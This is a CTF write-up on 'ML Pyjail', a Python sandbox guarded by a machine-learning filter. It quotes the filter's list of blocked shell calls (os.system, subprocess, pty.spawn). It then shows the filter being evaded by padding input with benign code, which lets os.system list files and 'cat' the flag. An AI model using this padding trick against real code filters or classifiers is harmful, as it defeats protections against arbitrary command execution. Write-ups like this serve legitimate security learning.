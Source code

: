 ```yaml
---
author: Garfield1002
layout: post
date: 2023-09-12 18:00:00 +0200
title: "ML Pyjail"
tags: pyjail misc pctf
excerpt_separator: <!--more-->
---
```


A classic py jail using machine learning for it's filter.

<!--more-->

## Experimentation

We started by having a look at the service:

```
>>> print("Hello, World!")
Hello, World!

>>> import os
Bad Code Detected ...
```

## Code

Having a quick look at the code, we realize that the filter being used is a machine learning model.

Let's have a look at the training data.

Extract from `\tags\good_code.txt`:

```
print('Hello, World!')
x = 5; y = 10; print(x + y)
numbers = [1, 2, 3, 4, 5]; print(sum(numbers))
print(''.join(['Hello', ' ', 'World!']))
print('The answer is', 42)
print('Even' if x % 2 == 0 else 'Odd')
names = ['Alice', 'Bob', 'Charlie']; print(', '.join(names))
import math; print(math.sqrt(16))
```

Extract from `\tags\bad_code.txt`:

```
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls")
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
```

## Attack

We can convince the model that code is good by feeding it a lot of _"good"_ training data with malicious code at the end.

Let's try this again:

```
>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); import os
Hello, World!
15
15

>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); os.system("ls")
Dockerfile
MLjail
ReadME.md
docker-compose.yml
entrypoint.sh
Hello, World!
15
15
```

This worked ! All that we need to do is read the flag

```
>>> print('Hello, World!'); x = 5; y = 10; print(x + y); numbers = [1, 2, 3, 4, 5]; print(sum(numbers)); os.system("cat MLjail/flag.txt")
PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}Hello, World!
15
15
```

## Flag

`PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}`
